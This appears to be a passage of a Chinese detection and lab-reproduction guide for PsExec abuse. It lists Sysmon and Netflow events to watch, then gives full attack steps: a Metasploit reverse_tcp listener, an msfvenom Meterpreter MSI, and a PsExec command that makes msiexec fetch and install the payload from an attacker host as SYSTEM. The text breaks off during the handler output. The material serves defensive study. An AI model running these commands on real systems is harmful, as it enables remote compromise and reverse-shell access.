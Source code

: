 ### Sysmon日志
- **事件ID 1**：捕获`PsExec.exe`、`PSEXESVC.exe`或`msiexec.exe`进程创建及命令行参数。
- **事件ID 3**：记录SMB连接（TCP 445端口）的网络活动。
- **事件ID 11**：记录共享中文件的创建或修改（如`PSEXESVC.exe`）。
- **事件ID 7**：记录模块加载（如恶意MSI加载的DLL）。

### Netflow日志
- 捕获TCP 445端口的SMB流量及TCP 4444端口的反弹Shell流量。

## 测试复现

### 环境准备
- **攻击机**：Kali Linux 2019（或其他支持Metasploit的系统）。
- **靶机**：Windows 7/10/11或Windows Server 2012/2016（已启用SMB和管理员共享）。
- **权限**：域管理员或本地管理员凭据。
- **工具**：
  - Metasploit Framework（生成Payload和监听反弹Shell）。
  - PsExec（从https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec获取）。
  - Sysmon（监控进程和网络活动）。
  - Wireshark（捕获SMB和反弹Shell流量）。
- **网络**：隔离网络环境，允许TCP 445和4444端口流量。
- **日志**：启用Windows安全日志（配置审核进程创建）、Sysmon日志和Netflow日志。
  - 启用命令行记录：
    ```
    本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在过程创建事件中加入命令行 > 启用
    ```

### 攻击步骤
1. **配置Metasploit监听器（攻击机）**：
   ```bash
   msf5 > use exploit/multi/handler
   msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   msf5 exploit(multi/handler) > set lhost 192.168.126.146
   msf5 exploit(multi/handler) > set lport 4444
   msf5 exploit(multi/handler) > exploit
   ```
2. **生成恶意Payload（攻击机）**：
   ```bash
   msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f msi > shellcode.msi
   ```
   - 托管`shellcode.msi`于攻击机的Web服务器：
     ```bash
     python3 -m http.server 80
     ```
3. **执行PsExec（靶机）**：
   - 将`PsExec.exe`复制到靶机（如`C:\Users\12306Br0\Desktop\PSTools\PsExec.exe`）。
   - 以管理员权限运行：
     ```dos
     PsExec.exe -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
     ```
     - 参数说明：
       - `-d`：非交互模式，后台运行。
       - `-s`：以SYSTEM权限运行。
       - `/q`：安静模式，无用户界面。
       - `/i`：安装MSI文件。
4. **获取反弹Shell（攻击机）**：
   - Metasploit接收Meterpreter会话：
     ```
     [*] Started reverse TCP handler on 192.168.126.146:4444
     [*] Sending stage (180291 bytes) to 192.168.126.149